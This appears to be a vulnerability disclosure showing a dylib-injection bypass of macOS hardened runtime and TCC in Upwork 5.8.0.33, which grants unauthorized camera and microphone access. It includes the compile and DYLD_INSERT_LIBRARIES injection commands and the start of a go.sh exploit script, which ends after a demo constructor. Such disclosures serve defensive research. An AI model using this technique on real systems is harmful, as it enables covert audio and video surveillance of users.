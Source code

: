 This example can be seen below:
```
04:02:01-testmac@mpro:~/Desktop/UPWORK$ gcc -dynamiclib -framework Cocoa -framework Foundation runtime_tcc_bypass_demo.m -o runtime_tcc_bypass_demo.dylib
04:02:05-testmac@mpro:~/Desktop/UPWORK$ DYLD_INSERT_LIBRARIES=runtime_tcc_bypass_demo.dylib /Applications/Upwork.app/Contents/MacOS/Upwork 
2023-12-23 04:02:36.694 Upwork[1741:38078] [INFO] dylib constructor called from /Applications/Upwork.app/Contents/MacOS/Upwork
2023-12-23 04:02:36.695 Upwork[1741:38078] [INFO] Exiting !
```

## Exploitation
Since the target Mach-O object possessed the `com.apple.security.cs.disable-library-validation` and `com.apple.security.cs.allow-dyld-environment-variables` entitlements, an attacker could exploit this to inherit the `com.apple.security.device.microphone` and `com.apple.security.device.camera` entitlements, thereby circumventing the hardened runtime and `TCC` security measures in place. This will grant them the ability to carry out unauthorized recording of audio and video without user permission.

## Proof of Concept (PoC) Exploit Script / Code
This section contains the exploit code for the `go.sh` automated exploit script to work. The directory structure should be setup with the contents of the files listed as follows:
```
04:05:30-testmac@mpro:~/Desktop/UPWORK/exploit$ ls
total 24
drwxr-xr-x  4 testmac  staff   128B 23 Dec 04:05 .
drwxr-xr-x  5 testmac  staff   160B 23 Dec 04:04 ..
-rw-r--r--  1 testmac  staff   2.6K 23 Dec 04:05 upwork_runtime_bypass_tcc_bypass.m
-rw-r--r--  1 testmac  staff   5.5K 23 Dec 04:05 go.sh
```

### go.sh
The following bash script automatically exploits the TCC Bypass without the need for manually moving files or compiling code. 
```bash
########################################################################################################################
echo "[i] Upwork 5.8.0.33 Hardened Runtime + TCC Bypass Camera Recording"
#!/bin/bash
########################################################################################################################
# STAGE 1 [DEMO] #######################################################################################################
echo "[i] Creating base_poc.m file"

DEMO_NAME=runtime_tcc_bypass_demo

cat << EOF > $DEMO_NAME.m
/* gcc -dynamiclib -framework Cocoa -framework Foundation rpath_hijack.m -o rpath_hijack.dylib */

#include <syslog.h>
#import <Foundation/Foundation.h>
#import <Cocoa/Cocoa.h>

__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
    NSLog(@"[INFO] dylib constructor called from %s\n", argv[0]);
    syslog(LOG_ERR, "[INFO] dylib constructor called from %s\n", argv[0]);

    NSLog(@"[INFO] Exiting !");
    [[NSApplication sharedApplication] terminate:nil];   
}
EOF
```